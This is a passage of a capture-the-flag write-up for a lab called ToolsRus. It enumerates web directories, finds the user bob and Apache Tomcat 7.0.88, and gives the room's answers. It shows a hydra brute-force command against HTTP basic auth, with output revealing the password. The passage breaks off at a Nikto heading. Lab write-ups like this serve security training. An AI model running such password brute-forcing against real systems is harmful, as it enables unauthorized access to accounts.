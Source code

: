 **Question : What directory can you find, that begins with a "g" ?**  
**Answer : guidelines**  

Going to the guidelines directory, we get this page :  
![](https://i.imgur.com/JPUmT5t.png)  

We have now a probable username `bob`. And he has probably access to the Tomcat server on port 1234 according to the message at /protected.
**Question : Whose name can you find from this directory ?**  
**Answer : bob**  

**Question : What directory has basic authentication ?**  
**Answer : protected**  

### Manual enumeration
Let's take a look at port 1234 using a web browser :  
![](https://i.imgur.com/XkHj2iC.png)  

We know that the Apache Tomcat version installed on the target is 7.0.88.  
**Question : Going to the service running on that port, what is the name and version of the software ? Answer format: Full_name_of_service/Version**  
**Answer : Apache Tomcat/7.0.88**

## Brute-forcing protected directory

We already have a username to use. We just need to find a password. Let's try to brute force the basic
authentication at /protected using [hydra](https://github.com/vanhauser-thc/thc-hydra) with rockyou.txt.
```
┌──(attacker㉿AttackBox)-[~/Bureau/CTF/ToolsRus]
└─$ hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.84.217 http-get /protected
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-24 19:59:00
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.84.217:80/protected
[80][http-get] host: 10.10.84.217   login: bob   password: bubbles
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-24 19:59:02
```

We successfuly brute-forced the basic authentification ! Now we have credentials that may be used 
somewhere else.

**Question : What is bob's password to the protected part of the website ?**  
**Answer : bubbles**

## Nikto scan
